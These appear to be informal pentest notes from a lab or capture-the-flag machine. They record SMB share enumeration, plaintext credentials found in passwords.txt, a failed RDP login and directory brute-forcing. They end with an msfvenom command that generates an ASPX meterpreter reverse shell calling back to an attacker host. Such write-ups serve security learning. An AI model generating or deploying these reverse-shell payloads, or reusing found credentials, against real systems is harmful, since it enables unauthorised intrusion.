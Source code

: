 ### Relevant ###

export IP=10.10.30.250

# Http-TRACE
nmap showed that http-trace method was enabled..so tried that but no luck there...
because i tried -X TRACE with curl but no response was recieved:so i am assuming that its not enabled anymore(Because TRACE works only on older versions of browsers)

# SMB:

nmap showed smb was enabled and guest login was also enabled:

found 4 shares:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      

nt4wrksv had guest login enabled and found passwords.txt

Found an encoded password:Decoded:Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
will try xfreerdp into the machine
# Xfreerdp:
xfreerdp /u:Bill /p:Juw4nnaM4n420696969/v:10.10.200.161$$ /v:10.10.200.161

This didnt work:
#TODO:Figure out where to use the credentials found

Tried smbclient to access the other available shares but got access denied or NT_STATUS_INVALID_INFO_CLASS listing \*

nmap -p- showed 2 more ports having http services enabled..but running bobuster against them isnt working mayb my wordlist is incorrect...

#TODO: use my kali to check if thats the case(OF wordlist)

well it turns out it was my wordlist :/....

got that 'nt4wrksv' is a directory 
and its the same as the smbshare...

using msfvenom to have a rev_shell (In aspx because its windows IIS (I didnt know that ofc lol))

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.40.42 LPORT=5555 -f aspx -o meter_rev_shell.aspx  